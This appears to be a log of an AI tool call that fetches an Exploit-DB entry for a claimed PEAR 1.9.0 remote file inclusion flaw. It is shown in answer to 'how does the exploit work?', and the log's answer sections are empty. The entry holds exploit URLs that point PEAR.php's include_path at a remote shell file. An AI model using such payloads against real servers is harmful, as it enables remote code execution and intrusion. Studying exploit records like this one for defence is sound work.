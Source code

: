 <details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: how does the exploit work?

**Run ID:** `run_dh6BEkPOaX5MszVlw62mjtxz`

### Funciton Calls
**Step ID:** `step_BChjUrsmeDndxIezwbDPatff`

**Function called:** `get_exploitdb_exploit`

| Argument | Value |
| --- | --- |
| `exploit_id` | `11442` |

| Output | Value |
| --- | --- |
| `11442` | `{'exploitdb': "###########################################################\r\n###\r\n### PEAR v.1.9.0 Multiple Remote File Inclusion Vulnerability\r\n##\r\n###########################################################\r\n###     PEAR, the PHP Extension and Application Repository\r\n###\r\n###     * @package        PEAR\r\n###     * @Version        v.1.9.0\r\n###     * @license        http://opensource.org/licenses/bsd-license.php New BSD License\r\n###     * @link           http://pear.php.net/package/PEAR\r\n###\r\n###########################################################\r\n###\r\n###     Type :  Remote File Inclusion Vulnerability\r\n###     Author: eidelweiss\r\n###     Date  : 2010-02-14\r\n###     Location:       Indonesia ( http://yogyacarderlink.web.id )\r\n###     Contact:        g1xsystem [at] windowslive [dot] com\r\n###     Greetz : AL-MARHUM - YOGYACARDERLINK TEAM - (D)eal (C)yber\r\n###\r\n###########################################################\r\n###\r\n###     Vuln:   if ('../DIRECTORY_SEPARATOR/PEAR' != '@'.'include_path'.'@') {\r\n###                     ini_set('include_path', '../DIRECTORY_SEPARATOR/PEAR');\r\n###                     $raw = true;\r\n###             }\r\n###             @ini_set('allow_url_fopen', true);\r\n###             if (!ini_get('safe_mode')) {\r\n###             @set_time_limit(0);\r\n###             }\r\n###     $_PEAR_PHPDIR = '#$%^&*';\r\n###             define('PEAR_RUNTYPE', 'pecl');\r\n###             require_once 'pearcmd.php';\r\n###             require_once 'PEAR.php';\r\n###             require_once 'PEAR/Frontend.php';\r\n###             require_once 'PEAR/Config.php';\r\n###             require_once 'PEAR/Command.php';\r\n###             require_once 'Console/Getopt.php';\r\n###     =========================================================\r\n###     exploit:        http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?include_path=[Shell.txt?]\r\n###             http://victim.com/[DIRECTORY_SEPARATOR]/PEAR_DIR/PEAR.php?_PEAR_PHPDIR =[Shell.txt?]\r\n###########################################################\n            "}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---

